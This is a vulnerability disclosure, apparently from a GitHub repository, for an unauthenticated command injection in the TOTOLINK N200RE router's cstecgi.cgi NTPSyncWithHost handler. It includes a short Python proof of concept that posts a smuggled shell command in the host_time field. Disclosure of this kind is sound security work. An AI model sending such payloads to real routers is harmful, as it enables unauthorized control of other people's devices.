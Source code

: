 # TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `NTPSyncWithHost` handler function of  `cstecgi.cgi`. The value of the `host_time` parameter will be spliced ​​into the `date -s '%s'` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need authentication.**


![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "NTPSyncWithHost",
    "host_time": "';ps;#"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)
